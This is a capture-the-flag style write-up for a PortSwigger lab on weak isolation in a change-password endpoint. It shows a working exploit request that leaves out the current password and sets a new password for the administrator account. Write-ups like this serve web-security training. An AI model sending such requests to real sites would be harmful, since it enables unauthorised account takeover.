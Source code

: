# [Lab: Weak isolation on dual-use endpoint](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint)

## Lab

This lab makes a flawed assumption about the user's privilege level based on their input. As a result, you can exploit the logic of its account management features to gain access to arbitrary users' accounts. To solve the lab, access the `administrator` account and delete Carlos.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

change password request:

```http
POST /my-account/change-password HTTP/1.1
Cookie: session=wienersession

csrf=URhHLsebPJ7ji9NHgohuXlbFdmSn40RR&username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

## Solutions

try to change administrator password:

```http
POST /my-account/change-password HTTP/1.1
Cookie: session=wienersession

csrf=URhHLsebPJ7ji9NHgohuXlbFdmSn40RR&username=administrator&new-password-1=peter&new-password-2=peter
```

- resposne: `Password changed successfully!`

solved

